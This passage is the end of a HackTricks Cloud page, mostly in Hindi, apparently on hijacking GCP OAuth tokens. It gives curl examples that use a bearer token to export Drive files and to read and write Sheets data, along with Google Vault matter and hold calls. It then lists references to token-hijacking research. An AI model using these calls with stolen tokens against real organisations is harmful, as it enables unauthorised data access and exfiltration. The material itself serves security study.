"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** Google Workspace के लिए एक ऐड-ऑन है जो आपके संगठन के डेटा के लिए डेटा बनाए रखने, खोजने और निर्यात करने के उपकरण प्रदान करता है जो Google Workspace सेवाओं जैसे Gmail, Drive, Chat, और अधिक में संग्रहीत है।

* Google Workspace Vault में एक **Matter** एक **container** है जो एक विशिष्ट मामले, जांच, या कानूनी मामले से संबंधित सभी जानकारी को व्यवस्थित और समूहित करता है। यह उस विशेष मुद्दे से संबंधित **Holds**, **Searches**, और **Exports** प्रबंधित करने के लिए केंद्रीय हब के रूप में कार्य करता है।
* Google Workspace Vault में एक **Hold** एक **preservation action** है जो विशिष्ट उपयोगकर्ताओं या समूहों पर लागू होता है ताकि उनके डेटा को Google Workspace सेवाओं के भीतर **हटाने या संशोधित करने** से **रोकने** के लिए। Holds यह सुनिश्चित करते हैं कि प्रासंगिक जानकारी कानूनी मामले या जांच की अवधि के लिए सुरक्षित और अपरिवर्तित बनी रहे।
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
More [API endpoints in the docs](https://developers.google.com/vault/reference/rest).

</details>

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}
